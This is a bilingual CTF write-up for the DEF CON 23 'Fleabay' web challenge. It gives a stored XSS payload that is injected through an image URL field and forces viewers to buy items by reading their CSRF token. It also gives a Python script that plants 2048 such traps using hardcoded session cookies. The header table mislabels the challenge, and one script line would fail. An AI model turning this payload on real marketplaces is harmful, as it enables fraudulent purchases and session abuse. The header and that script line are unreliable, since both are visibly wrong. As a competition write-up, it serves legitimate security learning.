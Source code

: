 # CTF write-up: defcon23 open CTF No.09
Challenge | Tags | Point | Author
--- | --- | ---
Sanity Check | binary,exploitation,pwnable | 200 | soen

## English

### Challenge description
Fleabay 100 100 --- Fleabay has gotten really popular, and Mr. Moneybags is perusing the listings - can you sell him $100,000 worth of stuff?
10.0.66.91

### write-up
(in progress)

Auctuary this challange is very simmiller to Fleabay challange in last year.

First, access to the web page.

The web service is to sell and buy some images and exchange money.
The ame is ean a big money.
Our strategy is inject javascript code that another user would force parchasing our stuff.

1. Accessing the web.
2. Create account.
3. Regist the image for sale on it.
4. I found I was able to inject some in image url field. 
Point:
```
<img src="(image field)" />
```
To:
```
<img src=""><script>var r=new XMLHttpRequest();r.open('GET','/listing/XXX/',true);r.onload=function(){if(r.status>=200&&r.status<400){var d=r.responseText;var c=d.search('csrf_token=.{12}\"');var t=d.substring(c+11,c+11+12);var s=new XMLHttpRequest();s.open('GET','/listing/XXX/?buy=1&csrf_token='+t,true);s.send();}};r.send();</script><img src="" />
```
XXX is image id.

5. getting authentication information from browser developer tool.
```
csrftoken = "rjQFXg4rkYDnzYSykqXoUmyJ7atzIcxG"
sessionid = "07ze6nb37o5cy1sk8rn55jbpto1skzuv"
```

6. I made auto post script.

exploit.py:
```
import urllib3 # Requires: < 1.9
import re

http = urllib3.PoolManager()
newurl = "http://10.0.66.91/listings/new/"
updateurl = "http://10.0.66.91/listing/%d/edit/"
csrftoken = "rjQFXg4rkYDnzYSykqXoUmyJ7atzIcxG"
sessionid = "07ze6nb37o5cy1sk8rn55jbpto1skzuv"

def do_():
    r = http.request_encode_body('POST', newurl, headers={"Cookie":"csrftoken=%s;sessionid=%s" % (csrftoken, sessionid)}, fields={"name":"Item 1","details":"test","image_src":"test","cost":"%u" % (2**32)-1,"csrfmiddlewaretoken":csrftoken,"submit":"Submit"},encode_multipart=False, redirect=False)
    for urllike in re.finditer(r'http://10.0.66.91/listing/([0-9]+)/', r.headers['location']):
        num = int(urllike.group(1))
        r = http.request_encode_body('POST', updateurl % num, headers={"Cookie":"csrftoken=%s;sessionid=%s" % (csrftoken, sessionid)}, fields={"name":"Item %d" % num,"details":"test","image_src":"\"><script>var r=new XMLHttpRequest();r.open('GET','/listing/%(num)d/',true);r.onload=function(){if(r.status>=200&&r.status<400){var d=r.responseText;var c=d.search('csrf_token=.{12}\"');var t=d.substring(c+11,c+11+12);var s=new XMLHttpRequest();s.open('GET','/listing/%(num)d/?buy=1&csrf_token='+t,true);s.send();}};r.send();</script><img src=\"" % dict(num=num),"cost":"%u" % 4294967295 ,"csrfmiddlewaretoken":csrftoken,"Referer":updateurl % num}, encode_multipart=False, redirect=False)
        return num
    else:
        raise ValueError("unexpected response: %d: %s" % (r.status, r.data.decode('utf-8')))

for i in range(2048):
    num = do_()
    print("[+] placed XSS trap on item #%d" % num)
```

7. run the script and wait.

8. login to page with browser.

9. found the key on the page.


## 日本語(Japanese)

### 問題文
Fleabay 100 100 --- Fleabay has gotten really popular, and Mr. Moneybags is perusing the listings - can you sell him $100,000 worth of stuff?
10.0.66.91

### 訳文
Fleabay 100 100 --- Fleabayは本当に広く知られるようになりました。お金袋さんがリストを追っています。- 彼に $100,000 ドルの価値の物品を売れますか?
10.0.66.91

### write-up

実はこのチャレンジはほとんど一緒の問題（問題名も一緒）のものが昨年出題されていました。
※ 昨年も解けています。

まずウェブページにアクセスします。
http://10.0.66.91/

サイトは、画像の売り買いができるサイトで実際にお金で購入するものになっています。
目標は、ここで画像を売って莫大なお金を稼ぐことです。

ヒントとして、「お金袋さん」がリストをしつこく見ているという情報があります。
脆弱性をついて、彼が見ただけで買ったことにしてしまうJavascriptなりを埋め込むと良さそうです。

1. まずWebページにアクセスします。
2. アカウント登録でアカウントを作ります。
3. 販売するための画像を登録します。
4. ここで画像のURLを入力する部分に、タグやダブルクォーテーションが入れられることに気が付きます。
 
リストでは、入力した画像URLが以下のように表示されますので、
```
<img src="(image field)" />
```
以下の様なコードを埋め込んで、リストページを見ただけで、購入させるようにしてしまいます。
```
<img src=""><script>var r=new XMLHttpRequest();r.open('GET','/listing/XXX/',true);r.onload=function(){if(r.status>=200&&r.status<400){var d=r.responseText;var c=d.search('csrf_token=.{12}\"');var t=d.substring(c+11,c+11+12);var s=new XMLHttpRequest();s.open('GET','/listing/XXX/?buy=1&csrf_token='+t,true);s.send();}};r.send();</script><img src="" />
```
ここで、XXXは画像ごとに振られるID番号です。

5. ブラウザのデベロッパーツールでクッキーを確認します。以下のセッションキーとトークンで認証情報を保持しています。
こちらの認証情報をクッキーに入れることで、ログインしている状態になることを確認しておきます。
```
csrftoken = "rjQFXg4rkYDnzYSykqXoUmyJ7atzIcxG"
sessionid = "07ze6nb37o5cy1sk8rn55jbpto1skzuv"
```

6. いよいよ、上記の攻撃コードを大量にポストしてお金袋さんから大量の購入をもらうことにしましょう。
ちなみに、金額は 4294967295（エラーメッセージでこれ以下のみの指定と出ました。親切！）
10万ドル稼ぐので、2048個もあれば十分でしょう。

exploit.py は以下のとおりです:
```
import urllib3 # Requires: < 1.9
import re

http = urllib3.PoolManager()
newurl = "http://10.0.66.91/listings/new/"
updateurl = "http://10.0.66.91/listing/%d/edit/"
csrftoken = "rjQFXg4rkYDnzYSykqXoUmyJ7atzIcxG"
sessionid = "07ze6nb37o5cy1sk8rn55jbpto1skzuv"

def do_():
    r = http.request_encode_body('POST', newurl, headers={"Cookie":"csrftoken=%s;sessionid=%s" % (csrftoken, sessionid)}, fields={"name":"Item 1","details":"test","image_src":"test","cost":"%u" % (2**32)-1,"csrfmiddlewaretoken":csrftoken,"submit":"Submit"},encode_multipart=False, redirect=False)
    for urllike in re.finditer(r'http://10.0.66.91/listing/([0-9]+)/', r.headers['location']):
        num = int(urllike.group(1))
        r = http.request_encode_body('POST', updateurl % num, headers={"Cookie":"csrftoken=%s;sessionid=%s" % (csrftoken, sessionid)}, fields={"name":"Item %d" % num,"details":"test","image_src":"\"><script>var r=new XMLHttpRequest();r.open('GET','/listing/%(num)d/',true);r.onload=function(){if(r.status>=200&&r.status<400){var d=r.responseText;var c=d.search('csrf_token=.{12}\"');var t=d.substring(c+11,c+11+12);var s=new XMLHttpRequest();s.open('GET','/listing/%(num)d/?buy=1&csrf_token='+t,true);s.send();}};r.send();</script><img src=\"" % dict(num=num),"cost":"%u" % 4294967295 ,"csrfmiddlewaretoken":csrftoken,"Referer":updateurl % num}, encode_multipart=False, redirect=False)
        return num
    else:
        raise ValueError("unexpected response: %d: %s" % (r.status, r.data.decode('utf-8')))

for i in range(2048):
    num = do_()
    print("[+] placed XSS trap on item #%d" % num)
```

7. あとはこれを実行して待ちます。

8. しばらく待って、ブラウザでログインします。

9. ログインしたページで金額が 10万ドルを超えていて、画面のトップにFlagが表示されました。

※ こういうクライアントサイド攻撃のCTFの問題は珍しいと思います。楽しかったです。



